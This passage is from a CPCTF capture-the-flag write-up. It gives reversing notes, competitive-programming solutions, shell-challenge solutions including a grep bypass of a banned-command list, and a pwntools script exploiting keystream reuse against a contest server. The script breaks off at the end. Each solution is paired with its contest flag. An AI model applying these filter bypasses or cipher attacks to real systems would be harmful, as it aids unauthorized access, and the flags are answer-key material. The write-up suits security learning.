

Inspecting binary strings



Analyzing `main` in IDA Pro reveals that the expected input consists of 3 characters. Each character must be a 4-byte UTF-8 rune starting with the prefix `f0 9f` (the standard prefix for Unicode Emoji)



The function initializes an array of 30 constants on the stack



```text
04 6c 52 17 51 4a 05 5f 1f 2d
4b 06 33 65 4c 74 79 7e 24 45
77 0e 47 7a 0f 0d 33 31 60 79
```

The underlying decryption logic operates as:

```go
out := ""
for i := 0; i < 30; i++ {
    out += chr(arr[i] ^ mask[i] ^ key[i % 6])
}
fmt.Println(out)
```

Since `key` repeats every 6 bytes:

```python
flag[i] = arr[i] ^ mask[i] ^ key[i]
key[i] = arr[i] ^ mask[i] ^ ord(flag[i])
```

Knowing that the flag begins with the standard prefix `CPCTF{`, we deduce the 6-byte key:

```python
arr = [
    0x04, 0x6c, 0x52, 0x17, 0x51, 0x4a,
    0x05, 0x5f, 0x1f, 0x2d, 0x4b, 0x06,
    0x33, 0x65, 0x4c, 0x74, 0x79, 0x7e,
    0x24, 0x45, 0x77, 0x0e, 0x47, 0x7a,
    0x0f, 0x0d, 0x33, 0x31, 0x60, 0x79
]

mask = [
    226,140,137,226,143,156,226,157,179,239,
    184,152,226,166,139,226,142,166,226,157,
    176,226,166,136,226,142,159,226,140,169
]

prefix = "CPCTF{"
key = [arr[i] ^ mask[i] ^ ord(prefix[i]) for i in range(6)]
print("Key:", key, [hex(x) for x in key])
```



Converting the resolved UTF-8 sequences to emojis:

```text
f0 9f a5 b0 -> 🥰
f0 9f 98 a1 -> 😡
f0 9f 98 ad -> 😭
```

Passing these 3 emojis into the binary outputs the flag



> Flag: CPCTF{Br4ck3ts_7ouch_My_H34rt}

---

# Competitive Programming (PPC)

## Modulo Equation (Level 1)

Problem link: [yukicoder 13060](https://yukicoder.me/problems/13060)

```python
import sys
input = sys.stdin.read
data = input().split()

A = int(data[0])
B = int(data[1])

print(A + B)
```



> Flag: CPCTF{D1d_y0u_8ru73_f0rc3_17!?}

---

## Sign up for traP (Level 1)

Problem link: [yukicoder 13201](https://yukicoder.me/problems/13201)

```python
import sys

S = sys.stdin.readline().strip()

def is_valid_traq_id(s: str) -> int:
    if not (1 <= len(s) <= 32):
        return 400
 
    allowed = set("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-")
    if not all(c in allowed for c in s):
        return 400
    
    if s[0] in '_-' or s[-1] in '_-':
        return 400
    
    return 200

print(is_valid_traq_id(S))
```



> Flag: CPCTF{s10w1y_bu7_sure1y}

---

## 01 String (Level 2)

Problem link: [yukicoder 13158](https://yukicoder.me/problems/13158)

```cpp
#include <iostream>
#include <string>
#include <vector>

using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int n;
    string a;
    if (!(cin >> n >> a)) return 0;

    long long mod = 998244353;

    int start = 0;
    while (start < n && a[start] == '1') start++;

    int end = n - 1;
    while (end >= 0 && a[end] == '0') end--;

    if (start >= end) {
        cout << 1 << endl;
        return 0;
    }

    long long ans = 1;
    for (int i = start; i <= end; ) {
        int j = i;
        int zero_cnt = 0;
        int one_cnt = 0;

        while (j <= end && a[j] == '0') {
            zero_cnt++;
            j++;
        }
        while (j <= end && a[j] == '1') {
            one_cnt++;
            j++;
        }

        if (zero_cnt > 0 && one_cnt > 0) {
            ans = ans * (zero_cnt + one_cnt + 1) % mod;
        } else if (zero_cnt > 0) {
            ans = ans * 1 % mod;
        }
        
        i = j;
    }

    cout << ans << endl;

    return 0;
}
```



> Flag: CPCTF{K33p_901n9_Fr0m_h3R3}

---

## Bracket Stack Query 2 (Level 2)

Problem link: [yukicoder 13228](https://yukicoder.me/problems/13228)

```cpp
#include <iostream>
#include <vector>

using namespace std;

struct Node {
    char c;
    int parent;
    int depth;
};

Node nodes[800005];
int state_at_step[800005]; 

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int Q;
    cin >> Q;

    nodes[0] = {' ', -1, 0};
    state_at_step[0] = 0;
    
    int s_len = 0; 
    int node_count = 0; 

    for (int i = 0; i < Q; ++i) {
        int type;
        cin >> type;

        if (type == 1) {
            char c;
            cin >> c;
            
            int prev_state = state_at_step[s_len];
            s_len++;

            bool simplified = false;
            if (c == ')') {
                int p1 = prev_state; 
                if (p1 != 0 && nodes[p1].c == '|') {
                    int p2 = nodes[p1].parent; 
                    if (p2 != 0 && nodes[p2].c == '(') {
                        state_at_step[s_len] = nodes[p2].parent;
                        simplified = true;
                    }
                }
            }

            if (!simplified) {
                node_count++;
                nodes[node_count] = {c, prev_state, nodes[prev_state].depth + 1};
                state_at_step[s_len] = node_count;
            }
        } else {
            if (s_len > 0) s_len--;
        }

        if (state_at_step[s_len] == 0) {
            cout << "Yes\n";
        } else {
            cout << "No\n";
        }
    }

    return 0;
}
```



> Flag: CPCTF{st4cks_h4v3_b0th_ch4rs_and_h15tr0rys}

---

## I Love DAG (Level 2)

Problem link: [yukicoder 3499](https://yukicoder.me/problems/no/3499)

```cpp
#include <iostream>

using namespace std;

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int N, M;
    if (!(cin >> N >> M)) return 0;

    for (int i = 0; i < M; ++i) {
        int A, B;
        cin >> A >> B;

        if (A < B) {
            cout << 0 << endl;
        } else {
            cout << 1 << endl;
        }
    }

    return 0;
}
```



> Flag: CPCTF{cyc135_4r3_70x1c_70_m3}

---

## Digit Products 2 (Level 3)

Problem link: [yukicoder 13166](https://yukicoder.me/problems/13166)

```cpp
#include <iostream>
#include <vector>
#include <string>

using namespace std;

int main() {
    int N;
    cin >> N;

    vector<int> p(N - 1);
    for (int i = 0; i < N - 1; ++i) {
        cout << "? " << i << " " << N - 1 << endl;
        cin >> p[i];
        if (p[i] == -1) return 0;
    }

    int p_extra;
    cout << "? 0 1" << endl;
    cin >> p_extra;

    vector<string> candidates;
    for (int d_last = 1; d_last <= 9; ++d_last) {
        vector<int> current_d(N);
        current_d[N - 1] = d_last;
        bool possible = true;
        for (int i = 0; i < N - 1; ++i) {
            if (p[i] % d_last != 0 || p[i] / d_last > 9) {
                possible = false;
                break;
            }
            current_d[i] = p[i] / d_last;
        }

        if (possible) {
            if (current_d[0] * current_d[1] == p_extra) {
                string s = "";
                for (int i = N - 1; i >= 0; --i) s += to_string(current_d[i]);
                candidates.push_back(s);
            }
        }
    }

    if (candidates.size() == 1) {
        cout << "! " << candidates[0] << endl;
    } else {
        cout << "! -1" << endl;
    }

    return 0;
}
```



> Flag: CPCTF{num63r_w1th_thr33_0r_m0r3_n0n_z3r0_d1g175_c4n_b3_d373rm1n3d_1n_0n1y_0n3_w4y}

---

## GCD Knapsack (Level 3)

Problem link: [yukicoder 13218](https://yukicoder.me/problems/13218)

```cpp
#include <bits/stdc++.h>
using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int N, W;
    cin >> N >> W;

    vector<int> X(N);
    vector<long long> Y(N);

    int MX = 0;
    for (int i = 0; i < N; i++) {
        cin >> X[i];
        MX = max(MX, X[i]);
    }
    for (int i = 0; i < N; i++) {
        cin >> Y[i];
    }

    vector<long long> by_weight(MX + 1, 0);
    for (int i = 0; i < N; i++) {
        by_weight[X[i]] += Y[i];
    }

    long long ans = 0;
    for (int g = W; g <= MX; g++) {
        long long cur = 0;
        for (int multiple = g; multiple <= MX; multiple += g) {
            cur += by_weight[multiple];
        }
        ans = max(ans, cur);
    }

    cout << ans << '\n';
    return 0;
}
```



> Flag: CPCTF{5p34r_0f_4rv355!}

---

## Insert Maze (Level 3)

Problem link: [yukicoder 13152](https://yukicoder.me/problems/13152)

```cpp
#include <bits/stdc++.h>
using namespace std;

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    int H, W;
    cin >> H >> W;
    vector<string> C(H);
    for (int i = 0; i < H; i++) cin >> C[i];

    auto id = [&](int i, int j) { return i * W + j; };

    vector<unsigned char> fromS(H * W, 0), toG(H * W, 0);

    for (int i = 0; i < H; i++) {
        for (int j = 0; j < W; j++) {
            if (C[i][j] == '#') continue;
            if (i == 0 && j == 0) {
                fromS[id(i, j)] = 1;
            } else {
                bool ok = false;
                if (i > 0 && fromS[id(i - 1, j)]) ok = true;
                if (j > 0 && fromS[id(i, j - 1)]) ok = true;
                fromS[id(i, j)] = ok;
            }
        }
    }

    for (int i = H - 1; i >= 0; i--) {
        for (int j = W - 1; j >= 0; j--) {
            if (C[i][j] == '#') continue;
            if (i == H - 1 && j == W - 1) {
                toG[id(i, j)] = 1;
            } else {
                bool ok = false;
                if (i + 1 < H && toG[id(i + 1, j)]) ok = true;
                if (j + 1 < W && toG[id(i, j + 1)]) ok = true;
                toG[id(i, j)] = ok;
            }
        }
    }

    if (fromS[id(H - 1, W - 1)]) {
        cout << H + W - 2 << '\n';
        return 0;
    }

    for (int r = 0; r + 1 < H; r++) {
        vector<unsigned char> suff(W + 1, 0);
        for (int j = W - 1; j >= 0; j--) {
            suff[j] = suff[j + 1] || toG[id(r + 1, j)];
        }

        bool pref = false;
        for (int j = 0; j < W; j++) {
            pref = pref || fromS[id(r, j)];
            if (pref && suff[j]) {
                cout << H + W - 1 << '\n';
                return 0;
            }
        }
    }

    for (int c = 0; c + 1 < W; c++) {
        vector<unsigned char> suff(H + 1, 0);
        for (int i = H - 1; i >= 0; i--) {
            suff[i] = suff[i + 1] || toG[id(i, c + 1)];
        }

        bool pref = false;
        for (int i = 0; i < H; i++) {
            pref = pref || fromS[id(i, c)];
            if (pref && suff[i]) {
                cout << H + W - 1 << '\n';
                return 0;
            }
        }
    }

    cout << H + W << '\n';
    return 0;
}
```



> Flag: CPCTF{Y0u_4r3_4_sUperHum4n11}

---

## Sum of Prod of Root (Level 3)

Problem link: [yukicoder 13164](https://yukicoder.me/problems/13164)

```cpp
#include <bits/stdc++.h>
using namespace std;

using int64 = long long;
using i128 = __int128_t;

static const long long MOD = 998244353;
static const long long INV2 = (MOD + 1) / 2;
static const long long INV6 = 166374059;   
static const long long INV30 = 432572553;  

long long mod_pow(long long a, long long e) {
    long long r = 1 % MOD;
    while (e > 0) {
        if (e & 1) r = (long long)((__int128)r * a % MOD);
        a = (long long)((__int128)a * a % MOD);
        e >>= 1;
    }
    return r;
}

long long isqrt_ll(long long n) {
    long long x = sqrtl((long double)n);
    while ((i128)(x + 1) * (x + 1) <= n) ++x;
    while ((i128)x * x > n) --x;
    return x;
}

long long icbrt_ll(long long n) {
    long long x = cbrtl((long double)n);
    while ((i128)(x + 1) * (x + 1) * (x + 1) <= n) ++x;
    while ((i128)x * x * x > n) --x;
    return x;
}

long long sum1(long long n) { 
    n %= MOD;
    return (long long)((__int128)n * ((n + 1) % MOD) % MOD * INV2 % MOD);
}

long long sum2(long long n) { 
    long long a = n % MOD;
    long long b = (n + 1) % MOD;
    long long c = (2 * (n % MOD) + 1) % MOD;
    return (long long)((__int128)a * b % MOD * c % MOD * INV6 % MOD);
}

long long sum3(long long n) { 
    long long s = sum1(n);
    return (long long)((__int128)s * s % MOD);
}

long long sum4(long long n) { 
    long long a = n % MOD;
    long long b = (n + 1) % MOD;
    long long c = (2 * (n % MOD) + 1) % MOD;
    long long d = (3 * ( (__int128)n * n % MOD ) % MOD + 3 * (n % MOD) - 1) % MOD;
    if (d < 0) d += MOD;
    return (long long)((__int128)a * b % MOD * c % MOD * d % MOD * INV30 % MOD);
}

long long range_sum(long long l, long long r) { 
    if (l > r) return 0;
    long long len = (r - l + 1) % MOD;
    long long s = ((l % MOD) + (r % MOD)) % MOD;
    return (long long)((__int128)s * len % MOD * INV2 % MOD);
}

long long full_blocks(long long m) {
    if (m <= 0) return 0;
    long long s2 = sum2(m);
    long long s3 = sum3(m);
    long long s4 = sum4(m);
    long long res = 0;
    res = (res + 2LL * s4) % MOD;
    res = (res + 3LL * s3) % MOD;
    res = (res + s2) % MOD;
    return res;
}

long long calcF(long long n) {
    if (n <= 0) return 0;
    long long m = isqrt_ll(n);
    long long res = full_blocks(m - 1);

    long long l = m * m;
    long long tail = range_sum(l, n);
    res = (res + (__int128)(m % MOD) * tail) % MOD;
    return res;
}

int main() {
    ios::sync_with_stdio(false);
    cin.tie(nullptr);

    long long N;
    cin >> N;
    
    vector<pair<long long, int>> events; 
    long long lim = icbrt_ll(N);

    for (long long a = 2; a <= lim; ++a) {
        i128 p = (i128)a * a * a; 
        while (p <= N) {
            events.push_back({(long long)p, (int)a});
            p *= a;
        }
    }

    sort(events.begin(), events.end());

    vector<long long> inv(max(2LL, lim + 1), 1);
    for (long long i = 2; i <= lim; ++i) {
        inv[i] = MOD - (long long)((__int128)(MOD / i) * inv[MOD % i] % MOD);
    }

    long long ans = 0;
    long long curL = 1;
    long long R = 1; 

    int m = (int)events.size();
    int idx = 0;

    while (idx < m) {
        long long x = events[idx].first;

        if (curL <= x - 1) {
            long long seg = (calcF(x - 1) - calcF(curL - 1)) % MOD;
            if (seg < 0) seg += MOD;
            ans = (ans + (__int128)R * seg) % MOD;
        }

        while (idx < m && events[idx].first == x) {
            int a = events[idx].second;
            long long mul = (long long)((__int128)(a % MOD) * inv[a - 1] % MOD);
            R = (long long)((__int128)R * mul % MOD);
            ++idx;
        }

        curL = x;
    }

    if (curL <= N) {
        long long seg = (calcF(N) - calcF(curL - 1)) % MOD;
        if (seg < 0) seg += MOD;
        ans = (ans + (__int128)R * seg) % MOD;
    }

    cout << ans % MOD << '\n';
    return 0;
}
```



> Flag: CPCTF{c0ns74n7_4lmos7_3v3rywh3r3}

---

## OR Mapping (Level 4)

Problem link: [yukicoder 13182](https://yukicoder.me/problems/13182)

```cpp
#include <iostream>
#include <vector>
#include <queue>

using namespace std;

const int MAXN = 500005;
vector<int> adj[MAXN], rev_adj[MAXN];
vector<int> order;
bool visited[MAXN];
int scc_id[MAXN];
vector<vector<int>> scc_nodes;

void dfs1(int u) {
    visited[u] = true;
    for (int v : adj[u]) {
        if (!visited[v]) dfs1(v);
    }
    order.push_back(u);
}

void dfs2(int u, int id) {
    visited[u] = true;
    scc_id[u] = id;
    scc_nodes.back().push_back(u);
    for (int v : rev_adj[u]) {
        if (!visited[v]) dfs2(v, id);
    }
}

int main() {
    ios_base::sync_with_stdio(false);
    cin.tie(NULL);

    int n, m, k;
    if (!(cin >> n >> m >> k)) return 0;

    for (int i = 0; i < m; i++) {
        int u, v;
        cin >> u >> v;
        adj[u].push_back(v);
        rev_adj[v].push_back(u);
    }

    for (int i = 1; i <= n; i++) visited[i] = false;
    for (int i = 1; i <= n; i++) {
        if (!visited[i]) dfs1(i);
    }

    for (int i = 1; i <= n; i++) visited[i] = false;
    int current_scc = 0;

    for (int i = n - 1; i >= 0; i--) {
        int u = order[i];
        if (!visited[u]) {
            scc_nodes.push_back(vector<int>());
            dfs2(u, current_scc);
            current_scc++;
        }
    }

    if (scc_id[1] != 0) {
        cout << "No\n";
        return 0;
    }

    for (int i = 0; i < current_scc - 1; i++) {
        bool has_edge = false;
        for (int u : scc_nodes[i]) {
            for (int v : adj[u]) {
                if (scc_id[v] == i + 1) {
                    has_edge = true;
                    break;
                }
            }
            if (has_edge) break;
        }
        if (!has_edge) {
            cout << "No\n";
            return 0;
        }
    }

    vector<int> type(current_scc);
    vector<int> color(n + 1, -1);

    for (int i = 0; i < current_scc; i++) {
        bool is_bip = true;
        for (int u : scc_nodes[i]) {
            if (color[u] == -1) {
                color[u] = 0;
                queue<int> q;
                q.push(u);
                while (!q.empty()) {
                    int curr = q.front();
                    q.pop();
                    for (int nxt : adj[curr]) {
                        if (scc_id[nxt] != i) continue;
                        if (color[nxt] == -1) {
                            color[nxt] = color[curr] ^ 1;
                            q.push(nxt);
                        } else if (color[nxt] == color[curr]) {
                            is_bip = false;
                        }
                    }
                    
                    for (int nxt : rev_adj[curr]) {
                        if (scc_id[nxt] != i) continue;
                        if (color[nxt] == -1) {
                            color[nxt] = color[curr] ^ 1;
                            q.push(nxt);
                        } else if (color[nxt] == color[curr]) {
                            is_bip = false;
                        }
                    }
                }
            }
        }
        
        if (!is_bip) {
            type[i] = 0; 
        } else {
            if (scc_nodes[i].size() == 1) type[i] = 1; 
            else type[i] = 2; 
        }
    }

    if (type[0] == 1) {
        cout << "No\n";
        return 0;
    }

    for (int i = 0; i < current_scc; i++) {
        if (type[i] == 2) {
            cout << "No\n";
            return 0;
        }
    }

    for (int i = 0; i < current_scc - 1; i++) {
        if (type[i] == 1 && type[i + 1] == 1) {
            cout << "No\n";
            return 0;
        }
    }

    cout << "Yes\n";
    return 0;
}
```



> Flag: CPCTF{Y0u_go_4r0und_in_str0ngly_c0nnected_c0mpon3nts}


# SHELL

## ssh (Level 1)

*Problem Statement:* Let's try SSH! The flag is located at `/flag/flag.txt`.
`password: cpctf2026`

---

Connect to the provided SSH endpoint using the credentials given. Verifying the target path confirms the presence of `/flag/flag.txt`, which can be displayed directly



> Flag: CPCTF{w31c0m3_2_c11_w0r1d}

---

## ssh2 (Level 2)

*Problem Statement:* This time, commands that output file contents are forbidden!
[ban.txt](https://files.cpctf.space/ssh2/ban.txt)  
`password: cpctf2026`

---

Inspecting `ban.txt` reveals the forbidden commands:

```bash
cat,tac,less,more,head,tail,nl,rev
```

We can easily bypass this blacklist using standard UNIX utilities that read files without being on the ban list, such as `grep`, `awk`, `sed`, or `base64`. Using `grep` with an empty search string prints the complete file:

```bash
grep "" /flag/flag.txt
```



> Flag: CPCTF{8ury_0n35_h34d_1n_7h3_54nd80x}

---

## CPCTF jail (Level 3)

*Problem Statement:* We don't want to see any characters other than CPCTF!
`password: cpctf2026`

---

The challenge drops us into a restricted shell environment where user input is strictly limited to at most 10 characters and only the letters `c`, `p`, `t`, and `f` are permitted. Executing the valid bypass sequence escapes the jail and prints the flag



> Flag: CPCTF{Y0ur3_4_7ru3_CPCTF_l0v3r}

---

# Cryptography

## Dualcast (Level 1)

*Problem Statement:* It looks like numbers, but it's supposed to be text?

---

The ciphertext is a large integer representing packed ASCII byte values. We decode it using `long_to_bytes` from `Crypto.Util.number`:

```python
from Crypto.Util.number import long_to_bytes

c = 510812092313572375684202062709941424740135938555245927502061365582594139087652994941
flag = long_to_bytes(c).decode()
print(flag)
```



> Flag: CPCTF{wh47_7yp3_15_y0ur_477r1bu73?}

---

## Very Exciting (Level 2)

*Problem Statement:* We'll let you use our exciting random number generator.
`nc 133.88.122.244 32007`

---

The server implements a stream cipher where data is XORed against a keystream generated by `BoringRandom`:

```python
def stream_excite(pksg, data: bytes) -> bytes:
    keystream = b""
    while len(keystream) < len(data):
        keystream += pksg.nextrand()
    return bytes([a ^ b for a, b in zip(data, keystream)])
```

The encryption formula is:

$$C = P \oplus KS$$

The server performs two actions:
1. Encrypts the real flag using an internal `secret_key` and a random `exciting_iv`, outputting `exciting_flag`.
2. Allows the player to submit an arbitrary plaintext `your_favorite` and an arbitrary IV `very_exciting_iv`, encrypted with the **same `secret_key`**.

By supplying an all-zero plaintext of the same length and setting `very_exciting_iv` to `exciting_iv`, the server outputs:

$$C_{probe} = 0 \oplus KS = KS$$

We recover the exact keystream used to encrypt the flag, then XOR it with `exciting_flag`:

```python
from pwn import remote
from binascii import unhexlify

HOST = "133.88.122.244"
PORT = 32007

r = remote(HOST, PORT)

line1 = r.recvline().decode().strip()
exciting_iv = line1.split(": ")[1]

r.recvuntil(b"=> ")
exciting_flag = r.recvline().decode().strip()

zero_plain = "00" * (len(exciting_flag) // 2)

r.recvuntil(b"Enter your boring 'favorite' (Hex): ")
r.sendline(zero_plain.encode())

r.recvuntil(b"Enter your own 'very_exciting' IV (Hex): ")
r.sendline(exciting_iv.encode())

r.recvuntil(b"=> ")
keystream = r.recvline().decode().strip()

flag = bytes(a ^ b for a, b in zip(unhexlify(exciting_flag), unhexlify(keystream)))
